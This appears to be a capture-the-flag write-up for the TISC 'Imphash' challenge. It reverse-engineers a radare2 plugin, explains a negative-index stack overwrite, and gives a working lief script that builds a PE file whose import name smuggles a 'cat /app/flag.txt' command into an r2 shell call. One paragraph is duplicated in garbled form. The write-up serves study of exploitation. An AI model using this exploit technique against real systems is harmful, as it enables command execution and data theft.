








# Level 09 - Imphash



## Analysis

When extracting the `imphash.zip` archive, we find the following files:

```
client.py  docker-compose.yml  Dockerfile  flag.txt  libcoreimp.so  service.py  service.xinetd
```

In `service.py`, it appears to contain the logic for the `nc` server:

```python
#!/usr/bin/python3

import os
import subprocess
import base64
import secrets

fdata = input("Input PE file (base64 encoded): ")
try:
    fdata = base64.b64decode(fdata.encode())
except:
    print("Invalid base64!", flush=True)
    exit(1)

dirname = "/app/uploads/"+secrets.token_hex(16)
os.mkdir(dirname)
os.chdir(dirname)
with open("./file.exe", "wb") as f:
    f.write(fdata)

subprocess.run(["r2 -q -c imp -e bin.relocs.apply=true file.exe"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, shell=True)

if os.path.isfile("out"):
    with open("./out", "r") as f:
        print("Import hash:", f.read(), flush=True)
else:
    print("Error generating imphash!", flush=True)

os.chdir("/app")
os.system("rm -rf "+dirname)
```

It appears that the `service.py` script takes in a Base64-encoded PE file and runs it through the command `r2 -q -c imp -e bin.relocs.apply=true file.exe`. This command likely generates an `out` file, which is then read, displayed to the `nc` client, and subsequently removed from the filesystem.

The radare2 command specifically loaded the `libcoreimp` plugin. It seems likely that the goal is to exploit a vulnerability in this plugin to achieve remote code execution and exfiltrate the flag.

Before analyzing the plugin, we can first set up an environment by referencing the `Dockerfile` to install radare2 and the necessary plugin.

Here is the content of the `Dockerfile`:

```dockerfile
FROM python:3.12

RUN apt-get update && apt-get install xinetd sudo -y

RUN useradd -ms /bin/bash ctf

RUN git clone https://github.com/radare/radare2.git radare2 && \
    cd radare2 && \
    ./sys/install-rev.sh 0da877e

COPY service.xinetd /etc/xinetd.d/imphash

RUN mkdir -p /home/ctf/.local/share/radare2/plugins
COPY libcoreimp.so /home/ctf/.local/share/radare2/plugins
RUN chmod 755 /home/ctf/.local/share/radare2/plugins/libcoreimp.so


RUN mkdir /app

WORKDIR /app

COPY service.py .
COPY flag.txt .
RUN chmod +x service.py

RUN mkdir uploads
RUN chown root:ctf uploads
RUN chmod 1775 uploads

RUN apt-get install libcjson-dev -y

USER ctf

CMD ["xinetd", "-dontfork", "-filelog", "/tmp/log.txt"]
```

We can set up similar environment with the following set of commands:

```sh
git clone https://github.com/radare/radare2.git radare2 && cd radare2 && ./sys/install-rev.sh 0da877e & cd ..
mkdir -p /home/user/.local/share/radare2/plugins
cp libcoreimp.so /home/user/.local/share/radare2/plugins
chmod 755 /home/user/.local/share/radare2/plugins/libcoreimp.so
```

Now we can begin reversing the plugin using IDA. Below is the pseudocode for `r_cmd_imp_client`, where the main logic of the plugin resides:

```c
__int64 __fastcall r_cmd_imp_client(__int64 a1, __int64 a2)
{
  void *v3; // rax
  _QWORD *v4; // rax
  size_t v8; // rax
  void *v9; // rax
  _BYTE v10[96]; // [rsp+10h] [rbp-1210h] BYREF
  _BYTE s[16]; // [rsp+70h] [rbp-11B0h] BYREF
  char v12[37]; // [rsp+80h] [rbp-11A0h] BYREF
  char v13[219]; // [rsp+A5h] [rbp-117Bh] BYREF
  __int16 v14; // [rsp+180h] [rbp-10A0h]
  char v15[4110]; // [rsp+182h] [rbp-109Eh] BYREF
  int v16; // [rsp+1190h] [rbp-90h]
  int v17; // [rsp+1194h] [rbp-8Ch]
  char *v18; // [rsp+1198h] [rbp-88h]
  char *v19; // [rsp+11A0h] [rbp-80h]
  char *v20; // [rsp+11A8h] [rbp-78h]
  char *v21; // [rsp+11B0h] [rbp-70h]
  char *v22; // [rsp+11B8h] [rbp-68h]
  __int64 v23; // [rsp+11C0h] [rbp-60h]
  __int64 v24; // [rsp+11C8h] [rbp-58h]
  const char *v25; // [rsp+11D0h] [rbp-50h]
  __int64 v26; // [rsp+11D8h] [rbp-48h]
  __int64 v27; // [rsp+11E0h] [rbp-40h]
  __int64 ObjectItemCaseSensitive; // [rsp+11E8h] [rbp-38h]
  __int64 v29; // [rsp+11F0h] [rbp-30h]
  __int64 v30; // [rsp+11F8h] [rbp-28h]
  __int64 v31; // [rsp+1200h] [rbp-20h]
  int m; // [rsp+120Ch] [rbp-14h]
  int k; // [rsp+1210h] [rbp-10h]
  int j; // [rsp+1214h] [rbp-Ch]
  _QWORD *i; // [rsp+1218h] [rbp-8h]

  v31 = a1;
  if ( !(unsigned __int8)r_str_startswith_inline(a2, &unk_21A0) )
    return 0LL;
  v14 = 0;
  memset(v15, 0, 0x1000uLL);
  memset(s, 0, 0x110uLL);
  strcpy(v12, "echo ");
  strcpy(v13, " > out");
  v30 = r_core_cmd_str(v31, &unk_21A4);
  v29 = cJSON_Parse(v30);
  ObjectItemCaseSensitive = cJSON_GetObjectItemCaseSensitive(v29, "bintype");
  if ( !strncmp(*(const char **)(ObjectItemCaseSensitive + 32), "pe", 2uLL) )
  {
    v3 = (void *)r_core_cmd_str(v31, "aa");
    free(v3);
    v27 = r_core_cmd_str(v31, "iij");
    v26 = cJSON_Parse(v27);
    i = 0LL;
    if ( v26 )
      v4 = *(_QWORD **)(v26 + 16);
    else
      v4 = 0LL;
    for ( i = v4; i; i = (_QWORD *)*i )
    {
      v24 = cJSON_GetObjectItemCaseSensitive(i, "libname");
      v23 = cJSON_GetObjectItemCaseSensitive(i, "name");
      if ( v24 && v23 )
      {
        v22 = *(char **)(v24 + 32);
        v21 = *(char **)(v23 + 32);
        v20 = strpbrk(v22, ".dll");
        if ( !v20 || v20 == v22 )
        {
          v19 = strpbrk(v22, ".ocx");
          if ( !v19 || v19 == v22 )
          {
            v18 = strpbrk(v22, ".sys");
            if ( !v18 || v18 == v22 )
            {
              puts("Invalid library name! Must end in .dll, .ocx or .sys!");
              return 1LL;
            }
          }
        }
        v17 = strlen(v22) - 4;
        v16 = strlen(v21);
        if ( 4094LL - v14 < (unsigned __int64)(v17 + v16) )
        {
          puts("Imports too long!");
          return 1LL;
        }
        for ( j = 0; j < v17; ++j )
          v15[v14 + j] = tolower(v22[j]);
        v14 += v17;
        v15[v14++] = 46;
        for ( k = 0; k < v16; ++k )
          v15[v14 + k] = tolower(v21[k]);
        v14 += v16;
        v15[v14++] = 44;
      }
    }
    MD5_Init(v10);
    v8 = strlen(v15);
    MD5_Update(v10, v15, v8 - 1);
    MD5_Final(s, v10);
    v25 = "0123456789abcdef";
    for ( m = 0; m <= 15; ++m )
    {
      v12[2 * m + 5] = v25[((char)s[m] >> 4) & 0xF];
      v12[2 * m + 6] = v25[s[m] & 0xF];
    }
    v9 = (void *)r_core_cmd_str(v31, v12);
    free(v9);
    return 1LL;
  }
  else
  {
    puts("File is not PE file!");
    return 1LL;
  }
}
```

From the pseudocode, we can see that the function analyzes a PE file, extracts the imported libraries, concatenates them, and calculates the MD5 hash of the list. The hash is then appended to an `echo ` string, which is further concatenated with ` > out`, and finally executed by `r_core_cmd_str`, which evaluates the command.

```c
...
v9 = (void *)r_core_cmd_str(v31, v12);
...
```

If we can somehow control and overwrite `v12` or `v13` (which are adjacent in memory), we could inject and execute arbitrary r2 commands, such as `!sh` or `cat flag.txt`.

Let's focus on this for-loop:

```c
for ( i = v4; i; i = (_QWORD *)*i )
{
    v24 = cJSON_GetObjectItemCaseSensitive(i, "libname");
    v23 = cJSON_GetObjectItemCaseSensitive(i, "name");
    if ( v24 && v23 )
    {
        v22 = *(char **)(v24 + 32);
        v21 = *(char **)(v23 + 32);
        v20 = strpbrk(v22, ".dll");
        if ( !v20 || v20 == v22 )
        {
            v19 = strpbrk(v22, ".ocx");
            if ( !v19 || v19 == v22 )
            {
                v18 = strpbrk(v22, ".sys");
                if ( !v18 || v18 == v22 )
                {
                    puts("Invalid library name! Must end in .dll, .ocx or .sys!");
                    return 1LL;
                }
            }
        }
        v17 = strlen(v22) - 4;
        v16 = strlen(v21);
        if ( 4094LL - v14 < (unsigned __int64)(v17 + v16) )
        {
            puts("Imports too long!");
            return 1LL;
        }
        for ( j = 0; j < v17; ++j )
            v15[v14 + j] = tolower(v22[j]);
        v14 += v17;
        v15[v14++] = 46;
        for ( k = 0; k < v16; ++k )
            v15[v14 + k] = tolower(v21[k]);
        v14 += v16;
        v15[v14++] = 44;
    }
}
```

The logic first retrieves the library and function names from the current object. It checks if the library name contains any character from `.dll`, `.ocx`, or `.sys`. If it does, then it calculates the length of the library name (excluding its extension due to -4) and the function name, ensuring they fit within the buffer. If the length check passes, it concatenates the lowercase library name (without extension), a dot (.), the lowercase function name, and a comma (,), then appends this string to the buffer.

Since `strpbrk` only checks if any character from its second argument exists in the first argument, it will meet the condition as long as we provide any character from these three strings (`.dll`, `.ocx`, or `.sys`). This means we can fulfill the "file extension check" very easily. If our `libname` is short enough (e.g., `a.`), it could result in a negative value. Since `a.` has a length of `2`, subtracting `4` will give us `-2`. This is possible because the result is stored in `v17`, which is a signed integer. When `v17` is `-2`, `v14` (which was initialized to `0`) is also affected. Therefore, `v15[v14++]` will result in negative indexing, modifying the value of `v14`, since it is adjacent to `v15` in memory.

As a result, this part of the code will write to arbitrary memory addresses for X amount of bytes, where X depends on the length of the function name:

```c
v15[v14++] = 46;
for ( k = 0; k < v16; ++k )
    v15[v14 + k] = tolower(v21[k]);
v14 += v16;
v15[v14++] = 44;
```

---

We can test this theory by writing a simple script using `lief` to [generate a PE file from scratch](https://lief.re/doc/latest/tutorials/02_pe_from_scratch.html) and then test the `imphash` plugin using `pwndbg`. In this example, the PE file will have `a.` as the `libname` and `a` repeated 206 times as the name. The number 206 has been carefully chosen (will explain soon...).

```python
from base64 import b64encode
from lief import PE

binary = PE.Binary(PE.PE_TYPE.PE32_PLUS)

section_text = PE.Section(".text")
section_text.content = []
section_text.virtual_address = 0x1000

binary.add_section(section_text)

test_lib = binary.add_library("a.")
test_lib.add_entry("a" * 206)

builder = PE.Builder(binary)
builder.build_imports(True)
builder.build()
builder.write("file.exe")
```

We can run the debugger with the following commands to start our debugging environment:

```sh
pwndbg --args r2 -c imp -e bin.relocs.apply=true file.exe
```

In `pwndbg`:

```
catch load libcoreimp.so
r
```

From here, we can set a breakpoint at `0x00007ffff7dd760d`, which corresponds to just before the execution of `v15[v14++] = 46;`. If we examine the current value of `v14` (`rbp - 0x10A0`), it is:



After executing, the value of `v14` is:



The `v14` value increments due to the `++` operator, which increases `v14` by 1. This moves `v14` back by 208 bytes (`0xFE - 0x2E`). If we set a breakpoint at the second `tolower()` and continue execution, we observe that the library's function name starts writing as from `0x7fffffffbde1` onwards.



Referring to the pseudocode, after writing the entire library's function name, `v14` will be incremented by `v16`, which is essentially the length of the function name.
The reason why I picked 206 as the length of the function name is because we will strategically stop writing `a`s 2 bytes away from v14, as such when `v15[v14++] = 44;` gets executed, it will be just 1 byte away from v14. So v14 is still intact. Therefore if we add another library we can with `a.` as name but ` '` (will explain later).

I chose 206 as the length of the function name because it strategically stops writing 2 bytes away from `v14`. As a result, when `v15[v14++] = 44;` is executed, it will be just 1 byte away from `v14`, leaving `v14` intact. Therefore, we can add another library with `a.` as the name and ` 'AAAAAA` (the reason for which will be explained later).



The next library's `v15[v14++] = 46;` will not initially interfere with `v14`'s value, allowing the for-loop to smoothly overwrite `v14`.



Still within the loop, once the LSB of `v14` is overwritten with `'`, `v14` becomes `0xff27`. As a result, the subsequent `A` characters in the function name will begin writing into `v13`.



The reason we add a new library or function instead of just increasing the `name` length is that increasing the `name` would not bring us far enough back to overwrite `v13` properly due to the increasing value of `k`. This would introduce null bytes between ` > out` and our arbitrary command, preventing execution. By strategically stopping the buffer 2 bytes before `v14` and then processing a new library's function name, `k` will reset and remain low enough to overwrite addresses further back.

## Solution

The following script will create a PE file using `lief` that exploits the vulnerability and prints the base64-encoded version of the PE file:

```python
from base64 import b64encode
from lief import PE

binary = PE.Binary(PE.PE_TYPE.PE32_PLUS)

section_text = PE.Section(".text")
section_text.content = []
section_text.virtual_address = 0x1000

binary.add_section(section_text)

test_lib = binary.add_library("a.")
test_lib.add_entry("a" * 206)
test_lib = binary.add_library("a.")
test_lib.add_entry(" '; cat /app/flag.txt > out;")

builder = PE.Builder(binary)
builder.build_imports(True)
builder.build()
# builder.write("file.exe")
print(b64encode(bytearray(builder.get_build())).decode())
```

Running the script and piping to the nc server `python3 solve.py | nc chals.tisc24.ctf.sg 53719` gives us the flag.



The flag is `TISC{pwn1n6_w17h_w1nd0w5_p3}`.
